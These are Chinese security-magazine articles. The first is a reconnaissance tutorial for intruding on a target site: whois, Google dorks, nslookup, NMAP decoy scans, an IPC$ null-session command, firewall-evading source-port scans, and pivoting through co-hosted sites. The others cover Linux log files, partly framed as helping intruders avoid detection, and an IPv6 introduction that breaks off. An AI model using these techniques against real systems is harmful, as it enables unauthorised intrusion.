

## 攻防对抗学—社会侦查

文/图 lotos

入侵之前，我们首先要摸清系统的状况，比如对方的操作系统类型、当前所运行的服务、服务器所在网段的类型，以及一些看起来不是很重要的信息，比如对方的管理员姓名、电话号码或者公司的电话号码等。不要觉得这些不重要，世界头号黑客凯文·米特尼克就是以社会工程学出名的。

### 网站信息整体查询

比如，我们要入侵的网站名称为 `www.target.com`，我们可以详细地查看一下网站的内容，比如公司的具体位置，还有刚才举例所说的对方电话号码。如果主页上没有，可以通过 Whois 查询获得这个域名注册的时候管理员所填写的联系方式和姓名。一般情况下写得都非常详细。网上有很多 Whois 工具，如果你不想去找那些工具，可以到 `www.allwhois.com`，这里有互联网上最全的 Whois 资源，在这里你也可以查到世界各地的各大 Whois 服务器地址。另外，在 *NIX 下进行 Whois 查询非常方便，但是鉴于大多数同行使用的还是比尔·盖茨大叔的操作系统，在这里就先省略了，相关文档大家可以到互联网上进行搜索。

你可以通过查看源代码，从程序员习惯的 HTML 注释当中获取有用的信息。如果你的目标是一个虚拟主机，则可以到 `whois.webhosting.info` 查询这台主机上有多少个网站。桂林老兵写了一个这样的工具，十分方便，它的原理就是查询这个网站得出数据，如图 1 所示。



图1

现在的虚拟主机一般都是 50 个网站以上，大多都没有做什么限制，可以找一个最好入侵的站点入侵之后，间接地去 Hack 你的目标站点。

### 妙用搜索引擎

搜索引擎根据蜘蛛协议搜集了大量的互联网资源。相信经常看《黑客防线》的朋友们肯定看到过不少用搜索引擎进行“作案”的经过吧？比如你想在目标网站搜索一下后台地址，或者说看看管理员是不是粗心大意忘了修改数据库的后缀，可以在 Google 里分别搜索 `admin site:www.target.com`、`.mdb site:www.target.com`，也许你会有意想不到的“收获”。

现在网上有不计其数公开源代码的 ASP、PHP 或者 CGI 程序（除非是大型网站，很少会有人会专门开发一套自己的新闻系统或者论坛系统等），我们可以找到它们所用的源代码，下载下来，只要你有铁杵磨成针的精神，早晚会发现漏洞的。打一个比方，比如 `www.hacker.com.cn`，论坛大家一看就知道是动网。再看老独新开的下载系统，这里没有版权，也不熟悉，那么是什么下载系统呢？大家应该注意到了页脚，也就是这段话：“本站大部分软件都是从《黑客防线》杂志内收集而来，另有部分程序来源于网络。如果您觉得我们侵犯了您的权益，请告诉我们，我们会去掉侵权的软件，谢谢支持！”一般情况下，网管很少去修改这些，我们就尝试在 Google 里面搜索“如果您觉得我们侵犯了您的权益，请告诉我们”，可以看到搜索到了好多结果。不用太长的时间，你就会得到这是“书生下载系统”。也许你会问：“我为什么就搜索你所说的那句话呢，搜索其他的不行吗？”比如搜索“另有部分程序来源于网络”？你可以仔细地读一下这段话，有什么下载站点的大部分软件是从内部收集而来的呢？所以判断这一句话应该是黑防的编辑自己修改的。搜索也是一门学问，好多东西只能意会，需要多思考、多联系。相信过不了多久，你就会成为搜索高手，搜索到有用的东西（老独，不要骂我啊！）

### Nslookup 查询的魅力

Nslookup 是 Windows 以及 *NIX 集成的一个有用的查询工具，利用它同样也可以查询到一些让人感兴趣的信息。以 Windows 操作系统为例，Nslookup 可以查询名称服务器记录、主机记录、别名记录、邮件交换器记录以及 DNS 记录更新时间等。如果你觉得 DOS 命令太麻烦，可以到 http://dns.muicc.com/nslookup/index.asp 查询，但是结果过于单一。建议你还是学习如何使用这个工具。

Nslookup 最简单的用法就是查询域名对应的 IP 地址，包括 A 记录和 CNAME 记录，如果查到的是 CNAME 记录还会返回别名记录的设置情况。其用法是：`nslookup 域名`。如图 2 所示。

```text
>nslookup mail.hacker.com.cn
Server: ns1.hazptthc.cn
Address: 202.102.224.68

Non-authoritative answer:
Name: mail.hacker.com.cn
Address: 202.159.102.233
```

图2

第一次：

```text
C:\>Ping qqshow.qq.com

Pinging qqshow.qq.com [219.133.40.85] with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 219.133.40.85:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss)
```

第二次：

```text
C:\>Ping qqshow.qq.com

Pinging qqshow.qq.com [219.133.41.83] with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 219.133.41.83:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss)
```

可见两次 `Ping qqshow.qq.com` 得到的 IP 地址是不同的。但是如果通过 Nslookup，可以一次得到这个二级子域名所对应的所有 IP 地址。如图 3 所示。

```text
>nslookup qqshow.qq.com
Server: ns1.hazptthc.cn
Address: 202.102.224.68

Non-authoritative answer:
Name: qqshow.qq.com
Addresses: 219.133.40.85, 219.133.40.89, 219.133.41.83, ...
```

图3

前面两个命令我们没有加任何参数，所以默认情况……用 Nslookup 查询的是 A 类型的记录。如果我们配置了其他类型的记录，希望查看解析是否正常，这时候 Ping 就无能为力了。比如我们配置了 MX 记录，但是邮件服务器只能发信不能收信，到底是域名解析问题还是其他问题，Ping 命令的检查只能让你误入歧途。Nslookup 这时候可以模拟你的邮件服务器进行域名解析的情况，我们需要在 Nslookup 上加上适当的参数。指定查询记录类型的指令格式如下：`Nslookup -qt=类型 目标域名`。

> 这里 `qt` 必须小写；类型可以是以下字符，不区分大小写：

- A 地址记录（IPv4）
- AAAA 地址记录（IPv6）
- AFSDB Andrew 文件系统数据库服务器记录
- ATMA ATM 地址记录
- CNAME 别名记录
- MB 存放指定邮箱的服务器
- MG 邮件组记录
- MINFO 邮件组和邮箱的信息记录
- MR 改名的邮箱记录
- PTR 反向记录（从 IP 地址解析域名）
- RP 负责人记录
- RT 路由穿透记录
- X25 域名对应的 X.25 地址记录

比如我们查询 Sina 的 MX 记录，也就是 SMTP 的地址，得到如下结果。可以看到 Sina 有好几个 SMTP 服务器。而这些数据单靠 Ping 是得不到的，你可以尝试 Ping 一下 `smtp.sina.com`，结果完全不一样。如图 4、5 所示。




## 三、锁定目标——扫描

我们首先要确定系统是否在运行，如果你要攻击的一个目标是一个网站，而且能够访问的话，那么系统当然在运行。不过在很多时候你需要确定系统是否正在运行。

我相信大家首先想到的就是 Ping 命令，这个最经典而且有用的工具，不过 Windows 下的 Ping 命令功能太弱，不像 UNIX 下的 FPing 那样可以进行批量 Ping 扫描。不过现在大多数网管或者防火墙的默认设置都屏蔽了 ICMP 数据包，Ping 不通并不代表主机不在运行。

接下来大家肯定就要提 X-scan 和 Superscan 了，这两个大名鼎鼎的扫描工具网上的教程非常多，我也就不在这里废话了。个人认为功能最强大的 Windows 下的扫描器肯定非 NMAP 莫属了，但是 NMAP 的命令行参数复杂而且繁多，不容易使用，幸好有了 NMAPwin，我现在用的版本是 1.3.1，如图 6 所示。



可以看到 NMAP 支持众多的扫描模式。利用 NMAP 可以扫描出对方主机是否 Online，以及当前所运行的服务。NMAP 也能根据操作系统指纹鉴别技术鉴别对方的操作系统。

扫描方式是否被目标主机检测得到，这取决于目标网络的先进程度。NMAP 提供了额外的欺骗能力，也就是使用 `-D` 选项给目标站点灌输多余的信息，如：`NMAP -S 192.168.0.1 -D 192.168.0.127`。隐藏在该选项背后的是：在发起真实扫描的同时发起欺骗性扫描。需要记住的是，所属你的地址必须是活动的，否则这样的扫描可能导致 SYN 分组淹没目标系统，造成拒绝服务的后果。NMAP 还有非常多有用的功能，大家可以看联机帮助或者查阅相关资料。

互联网上还有许多小巧的扫描工具，比如 IPeye，它可以执行 SYN、FIN、NULL 和 Xmas 扫描（有一点不方便的就是它一次只能扫描一台主机）。在命令行下不带任何参数地运行就可以看到它的运行帮助：

```text
C:\>ipeye
ipEye 1.2 - (c) 2000-2001, Arne Vidstrom ...
Error: Too few parameters.
Usage:
  ipEye <target IP> <scantype> -p <port> [optional ...]

[parameters]
  ipeye <target IP> <scantype> --p <from port> <to port> [optional parameters]

  <scantype> is one of the following:
    --syn   = SYN scan
    --fin   = FIN scan
    --null  = Null scan
    --xmas  = Xmas scan
    (note: FIN, Null and Xmas scans don't work against Windows systems.)

  [optional parameters] are selected from the following:
    --sip <source IP>   = source IP for the scan
    --sp <source port>  = source port for the scan
    --d <delay in ms>   = delay between scanned ports in milliseconds (default set to 750 ms)
```

### 离线漏洞

如果对方开放了 Web 服务，而且是动态页面，我相信大家第一个想到的肯定是现在最流行的 SQL 注入了。这方面网上的教程太多了，我就不在这里废话了，有骗稿费之嫌，挑几个现在流行的渗透内网的古老技术讲讲，很多时候最古老的技术反而最有生命力：

- 1. **空会话**  
  现在很少有主机还有这个漏洞了，不过还是讲一下吧，因为它在内部网络入侵中是非常有用的方法。使用命令：`Net use \\192.168.0.1\IPC$ "" /u:""`。如果对方管理员没有禁止空连接，连接成功之后，通过这条通道就可以获取比如网络信息、共享资源、用户、组、注册表键等。
- 2. **NetBIOS**  
  如果对方管理员没有屏蔽对 135、139 端口的访问，那么 X-scan 就可以扫描出共享资源、系统所在域、当前正在运行的服务和 MAC 地址。
- 3. **SNMP**  
  SNMP 即简单网络管理协议，如果管理员粗心大意，没有修改缺省的公共串（如 Private 或 Public），就可以得到许多有趣信息。X-scan 能扫出 SNMP 弱口令；还可通过 `snmputil` 等工具获取当前服务、共享名、共享路径、硬盘使用率、CPU 占用率等。
- 4. 如果从这台主机上得不到有价值信息，可以继续扫描同网段，寻找开放常见端口（如 80、1433、5631）的服务器，再尝试侧向渗透。

因为许多路由器或者防火墙的 ACL（访问控制列表）都配置成允许 DNS（UDP 53）、FTP 数据通道和连接通道（TCP 20、21）、SMTP（TCP 25）以及 HTTP（TCP 80）之类的协议从防火墙进入，因此源端口扫描可以假冒这种类型的通信来逃避防火墙的检查。

```bash
ipeye 192.168.0.1 --syn -p 1 1023 --sp 80
```

即利用 80 号端口进行源端口扫描（前提是你的 80 端口没有被占用）。除此之外，还有一些小巧的扫描工具，例如 WinEggDrop 的 ftpscan、以及用于 UDP 端口扫描的 WUPS 等。

然后是操作系统鉴别。例如扫描到对方开放 5000 端口，可能是 Windows XP 的 UPNP 端口。若扫描到开放了 80 端口，我们可以这样：

```bash
telnet www.hacker.com.cn 80
GET /
```



图 7

可以看到是 IIS 5.0，那么肯定是 Windows 2000 系统。这样的话就可以去网上搜寻相关的 Windows 2000 漏洞资料。有一些路由器开放 23 号端口供远程管理，Telnet 上去会直接显示对方系统；如果目标主机运行 SNMP 协议并使用 Public 等弱密码，也可能得到很多有用信息。其实 NMAP 就有操作系统指纹鉴别功能。


## 透析 Linux 日志

### 入侵

文／宝儿

对新手来说，常常有种想入侵别人的冲动，但往往成功入侵后却又无法把握住肉鸡，被入侵的系统很容易就飞掉了！为什么呢？其实大部分的原因都是因为对入侵中自己留下的痕迹了解不够，最后被管理员抓到，从而补上漏洞。

日志对于网络安全来说无疑是非常重要的，它记录了系统每天发生的各种各样的事，管理员可以通过它来检查错误发生的原因，或者受到攻击后攻击者留下的痕迹，这就是我们需要严密关注的地方，本文就从了解日志并分析日志构成的观点去让你感受一下，管理员是如何追查入侵者的！

### 日志子系统分类

在 Linux 系统中，有 3 个主要的日志子系统：  
连接时间日志——由多个程序执行，把记录写入到 `/var/log/wtmp` 和 `/var/run/utmp`，`login` 等程序更新 `wtmp` 和 `utmp` 文件，使系统管理员能够跟踪谁在何时登录到系统。  
进程统计——由系统内核执行。当一个进程终止时，为每个进程往进程统计文件（`pacct` 或 `acct`）中写一个记录。进程统计的目的是为系统中的基本服务提供命令使用统计。  
错误日志——由 `syslogd(8)` 执行。各种系统守护进程、用户程序和内核通过 `syslog(3)` 向文件 `/var/log/messages` 报告值得注意的事件。另有许多 UNIX 程序创建日志。像 HTTP 和 FTP 这样提供网络服务的服务器也保持详细的日志。

- Access-log：记录 HTTP/WEB 的传输。
- Acct/pacct：记录用户命令。
- Aculog：记录 MODEM 的活动。
- Btmp：记录失败的记录。
- Lastlog：记录最近几次成功登录的事件和最后一次不成功的登录。
- Messages：从 Syslog 中记录信息（有的链接到 Syslog 文件）。
- Sudolog：记录使用 Sudo 发出的命令。
- Sulog：记录“su”的使用。
- Utmp：记录当前登录的每个用户。
- Wtmp：一个用户每次登录进入和退出时间的永久记录。
- Xferlog：记录 FTP 会话。

### 日志记录基本过程

Utmp、Wtmp 和 Lastlog 日志文件是多数 UNIX 日志子系统的关键——保持用户登录进入和退出的记录。有关当前登录用户的信息记录在文件 Utmp 中；登录进入和退出记录在文件 Wtmp 中；最后一次登录文件可以用 `lastlog` 命令查看。数据交换、关机和重启也记录在 Wtmp 文件中。所有的记录都包含时间戳，这些文件（Lastlog 通常不大）在具有大量用户的系统中增长十分迅速。例如 Wtmp 文件可以无限增长，除非定期截取。许多系统以一天或者一周为单位把 Wtmp 配置成循环使用。它通常由 Cron 运行的脚本来修改。这些脚本重新命名并循环使用 Wtmp 文件。

> **小提示**：通常 Wtmp 在第一天结束后命名为 Wtmp.1，第二天后 Wtmp.1 变为 Wtmp.2，一直到 Wtmp.7。

每次有一个用户登录时，Login 程序在文件 Lastlog 中查看用户的 UID。如果找到了，则把用户上次登录、退出时间和主机名写到标准输出中，然后 Login 程序在 Lastlog 中记录新的登录时间。在新的 Lastlog 记录写入后，Utmp 文件打开并插入用户的 Utmp 记录。该记录一直用到用户登录退出时删除。Utmp 文件被各种命令文件使用，包括 who、users 和 finger。下一步，Login 程序打开文件 Wtmp 附加用户的 Utmp 记录。当用户登录退出时，具有更新时间戳的同一 Utmp 记录附加到文件中。Wtmp 文件被程序 last 和 ac 使用。

### 查看具体日志

Wtmp 和 Utmp 文件都是二进制文件，它们不能被诸如 tail 命令剪贴或合并（需要使用 cat 命令），用户需要使用 who、w、users、last 和 ac 来使用这两个文件包含的信息。

- 1. **Who**：该命令查询 Utmp 文件并报告当前登录的每个用户。Who 的缺省输出包括用户名、终端类型、登录日期及远程主机。例如输入 `who` 回车后显示：

```text
cayang  pts/0  Aug 18 15:06
yanguo  pts/2  Aug 18 15:22
ynguo   pts/3  Aug 18 13:55
lewis   pts/4  Aug 18 13:35
ynguo   pts/7  Aug 18 14:12
ylou    pts/8  Aug 18 14:15
```

如果指明了 Wtmp 文件名，则 Who 命令查询所有以前的记录。命令 `who /var/log/wtmp` 将报告从 Wtmp 文件创建或删改以来的每一次登录。

- 2. **W**：该命令查询 Utmp 文件并显示当前系统中每个用户和它所运行的进程信息。
- 3. **Users**：Users 用单独的一行显示出当前登录的用户，每个显示的用户名对应一个登录会话。如果一个用户有不止一个登录会话，那他的用户名将显示相同的次数。例如输入 Users 回车后显示：

```text
chyang lewis lewis ylou ynguo ynguo
```

- 4. **Last**：Last 命令会搜索 Wtmp，显示从文件第一次创建以来登录过的用户。例如：

```text
chyang pts/9 202.38.68.242 Tue Aug 1 08:34 - 11:23 (02:49)
cfan   pts/6 202.38.64.224 Tue Aug 1 08:33 - 08:48 (00:14)
chyang pts/4 202.38.68.242 Tue Aug 1 08:32 - 12:13 (03:40)
lewis  pts/3 202.38.64.233 Tue Aug 1 08:06 - 11:09 (03:03)
lewis  pts/2 202.38.64.233 Tue Aug 1 07:56 - 11:09 (03:12)
```

如果指明了用户，那么 Last 只报告该用户的近期活动，例如：`last ynguo` 显示：

```text
ynguo pts/4  simba.nic.ustc.c Fri Aug 4 16:50 - 08:20 (15:30)
ynguo pts/4  simba.nic.ustc.c Thu Aug 3 23:55 - 04:40 (04:44)
ynguo pts/11 simba.nic.ustc.c Thu Aug 3 20:45 - 22:02 (01:16)
ynguo pts/0  simba.nic.ustc.c Thu Aug 3 03:17 - 05:42 (02:25)
```

- 5. **AC**：AC 命令根据当前的 `/var/log/wtmp` 文件中的登录进入和退出来报告用户连接的时间（小时），如果不使用标志，则报告总的时间。例如：`ac` 显示：

```text
total 5177.47
```

`ac -d`（回车）显示每天总的连接时间：

```text
Aug 12 total 261.87
Aug 13 total 351.39
Aug 14 total 396.09
Aug 15 total 462.63
Aug 16 total 270.45
```

`ac -p`（回车）显示每个用户总的连接时间：

```text
ynguo 193:23
yucao   3:35
rong  133:40
hdai   10:52
```

- 6. **Lastlog**：Lastlog 文件在每次有用户登录时被查询。可以使用 Lastlog 命令来检查某特定用户上次登录的时间，并格式化输出上次登录日志 `/var/log/lastlog` 的内容。它根据 UID 排序显示登录名、端口号（tty）和上次登录时间。例如：

```text
rong : 202.38.64.187 Fri
Aug 18 15:57:01 +0800 2000
dbb
**Never logged in**
xiadbjcn
**Never logged in**
pb9511
**Never logged in**
```

> 如果一个用户从未登录过，Lastlog 显示 `**Never logged in**`。注意这个命令需要以 ROOT 权限运行。

另外，可在命令后加一些参数实现其他功能，例如 `last -u 102` 将报告 UID 为 102 的用户，`last -t 7` 表示限制上一周的报告。

### 进程审计

UNIX 可以跟踪每个用户运行的每条命令，如果想知道昨晚别人弄乱了哪些重要的文件，进程统计子系统可以告诉你，这一点无疑对跟踪入侵者很有帮助。与连接时间日志不同，进程统计子系统缺省不激活，它必须启动。在 Linux 系统中启动进程统计使用 Accton 命令，必须用 ROOT 身份来运行。先使用 Touch 命令来创建 Pacct 文件：

```text
touch /var/log/pacct
```

然后运行 Accton：

```text
accton /var/log/pacct
```

一旦 Accton 被激活，就可以使用 Lastcomm 命令监测系统中任何时候执行的命令。若要关闭统计，可以使用不带任何参数的 Accton 命令。

> Lastcomm 命令报告以前执行的文件。不带参数时，Lastcomm 命令显示当前统计文件生命周期内记录的所有命令的有关信息，包括命令名、用户、TTY、命令耗费的 CPU 时间和一个时间戳。如果系统有许多用户，输出可能很长。

进程统计存在的一个问题是 Pacct 文件可能增长得十分迅速。这时需要交互式或通过 Cron 机制运行 SA 命令来保持日志数据在系统控制内。

> SA 命令提供一种维护进程统计文件的方法。它把 `/var/log/pacct` 中的信息压缩到摘要文件中（如 `/var/log/savacct` 和 `/var/log/usracct`），用于系统统计与报表。

- Avio —— 每次执行的平均 I/O 操作次数
- Cp —— 用户和系统时间总和（分钟）
- CPU —— 和 cp 一样
- K —— 内核使用的平均 CPU 时间（以 1k 为单位）
- K*sec —— CPU 存储完整性（以 1k-core 秒）

### Syslog 报告

Syslog 已被许多日志函数采纳，用于多种保护措施。它可以记录系统事件到文件或设备，也可以发送给用户，并可通过网络记录到其他主机。

Syslog 依赖 `/etc/syslogd` 与 `/etc/syslog.conf`。通常日志写入 `/var/adm` 或 `/var/log`（如 `messages.*`）。一条典型记录包含程序名、文本、设备和优先级。

- LOG_AUTH —— 认证系统（Login、SU、Getty）
- LOG_CRON —— Cron 守护进程
- LOG_DAEMON —— 其他系统守护进程（如 Routed）
- LOG_FTP —— 文件传输协议（Ftpd、Tftpd）
- LOG_KERN —— 内核产生的消息
- LOG_MAIL —— 邮件系统
- LOG_SYSLOG —— Syslogd(8) 产生的内部消息
- LOG_LOCAL0~LOG_LOCAL7 —— 本地保留

- LOG_EMERG —— 紧急情况
- LOG_ALERT —— 需要立即改正的问题
- LOG_CRIT —— 重要情况
- LOG_ERR —— 错误
- LOG_WARNING —— 警告
- LOG_NOTICE —— 非错误但可能需处理
- LOG_INFO —— 情报信息

`syslog.conf` 指明 Syslogd 的记录行为。每条配置占一行，由“选择域 + 动作域”组成，二者以 Tab 分隔；选择域决定消息类型/优先级，动作域决定匹配后执行的动作。

优先级由“设备.级别”组成。若指定某级别（如 `crit`），则记录该级别及更高优先级（Crit/Alert/Emerg）。动作域指定消息发送位置，例如把所有邮件消息写入一个文件。

```text
mail.*    /var/log/maillog
```

其他设备也有自己的日志。UUCP 和 News 能产生外部消息，可将 `err` 或更高级别写入专门日志文件。

```text
uucp,news.crit    /var/log/spooler
```

紧急消息可发送给所有用户，也可转发到其他机器保存：

```text
*.emerg    *
*.emerg    @linuxaid.com.cn
```

Alert 消息可写到 ROOT 与 Tiger 的个人账号中：

```text
*.alert    ROOT,tiger
```

> Syslogd 产生大量信息，例如内核（kern）消息可能很多，可将其输出到 `/dev/console`（示例说明内核消息可分类摘录）。

```text
kern.*    /dev/console
```

可在一行中指定多个设备。如下示例把 `info` 及更高级别写入 `/var/log/messages`，但排除 `mail`，并用 `none` 禁止某设备：

```text
*.info;mail.none;authpriv.none    /var/log/messages
```

有时可将日志发送到打印机，降低入侵者篡改日志的风险。

> 可用 `logger` 为 Syslog 写入测试信息，例如：`logger "This is a test."` 会生成一条 syslog 记录。

```text
Aug 19 22:22:34 tiger: This is a test!
```

不要完全相信日志，因为攻击者可能修改它。理解 Linux 日志后，可更好地实时监测系统状态并追踪入侵者行为。

## IPv6：下一代互联网和移动通信的灵魂

刘流：Internet 协议的第4版（IPv4）为 TCP/IP 族和 Internet 提供了基本的通信机制。IP 技术已经广泛应用了10多年，随着 Internet 的指数增长，互联网的体系结构由 NSFNET 核心网络演变为由 ISP（Internet Service Provider，互联网服务提供商）运营的分散体系结构，互联网几乎覆盖了全球的每一个角落。当前互联网面临的一个严峻问题是地址消耗，即没有足够的地址来满足全球的需要。IPv4 的问题逐渐显露出来：32bit 的 IP 地址空间枯竭、网络号码匮乏、路由表急剧膨胀、对网络安全和多媒体应用的支持不够等。IETF 开发的下一代 Internet 协议 IPv6 就能解决目前 IPv4 所存在的主要弊病，所以本期我们专门给大家抢先推出 IPv6 的相关技术，希望大家能在第一时间内掌握最新技术！

IPv4 技术从昨天过渡到今天，在网络发展中起到了巨大的作用。不过，随着科技的进步，无论在网络地址的提供、服务质量，还是在安全性等方面，在当今网络科技的需要上，它都显得越来越力不从心。今天我们主要介绍下一代互联网协议核心 IPv6，具体包括它的地址、安装路由及其设定、网络配置文件、手动配置、加强安全性等方面，希望大家可以从中很快了解 IPv6 并解决一些实际问题。

## IPv6 优点及其作用

- 1. **128 比特大的地址空间**

IPv6 的地址长度由 IPv4 的 32 比特扩展到 128 比特，这样庞大的地址空间可以在今后20年之内满足互联网的增长，即使所有的移动电话也配置 IP，也照样足够使用。另一个值得考虑的因素是地址分配。IPv4 时代互联网地址分配失误的教训使人们意识到，即使有 128 比特的地址空间，一个良好的分配方案仍然非常关键。因此，相信在 IPv6 的时代 IP 地址可能会得到更充分的利用。

- 2. **配置了更多的新技术，安全性能提高**

IPv6 允许使用者可以用一些改进的技术处理网络上的一些问题。这些改进在网络上的用途是不可估量的。基本改进如下。

（1）**自动配置**

DHCP 是可以选择的，这和 IPv4 不一样。当一个初学者访问另一个没有 DHCP 服务的站点时可能会遇到麻烦。在 IPv6 中有一个叫 “stateless host autoconfiguration” 的机制可以强制托管。和 IPv4 中的 DHCP 相比，它的用法非常简单，也容易管理。这在 RFC2462 中有详细说明。

（2）**安全性**

